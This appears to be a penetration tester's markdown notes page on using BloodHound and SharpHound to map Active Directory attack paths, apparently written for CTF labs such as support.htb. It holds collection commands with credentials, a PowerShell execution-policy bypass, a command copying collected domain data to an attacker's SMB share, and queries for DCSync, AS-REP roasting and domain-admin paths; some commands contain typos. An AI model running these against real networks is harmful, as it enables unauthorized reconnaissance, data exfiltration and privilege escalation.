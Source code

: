 # Installation 

```bash
sudo apt install bloodhound

neo4j console
# open link
http://localhost:7474
#default creds
neoj4:neoj4
# set new password
# run bloodhound

```

# Prebuilt queries
Mark owned users as owned inside bloodhound 
![[Pasted image 20221226133410.png]]

```
shortest paths to domain admins from owned principals 
```

# Injestor 


## remote bloodhound
```
bloodhound --dns-tcp -ns 10.10.10.10 -d support.htb -u 'ldap' -p 'password' -c all

-ns # ip
-d # domain
-u # user
-p # password
```

## SharpHound 

[SharpCollection_repo](https://github.com/Flangvik/SharpCollection)

**Use latest NetFramework_ANY**

```powershell
# Upload sharphound to the target

.\SharpHound.exe -c all 
# start smbserver and send the file 
copy FILE.zip \\10.10.10.10\share\ # send .zip file to attackers ip 
```

### Invoke-bloodhound
```bash
# dfault path
/usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
```
```powershell
powersehll -eq bypass
. .\SharpHoundps1
Invoke-bloodhound -Collectionmethod All -Domain marvel.local -ZipFileName file.zip

```


# Examples

## Search Users DCSync Rights  


![[Pasted image 20221230121414.png]]


## Search Users AS-REP Roastable Users (DontReqPreAuth)  

![[Pasted image 20221230121434.png]]


## Search Unconstrained Delegation

![[Pasted image 20221230121453.png]]

## Search Shortest Paths to Domain Admins 
![[Pasted image 20221230121508.png]]


---
Tags: #AD #bloodhound #sharphound
Resources: 
[SharpCollection_repo](https://github.com/Flangvik/SharpCollection)
[BloodHound](https://github.com/BloodHoundAD/BloodHound)
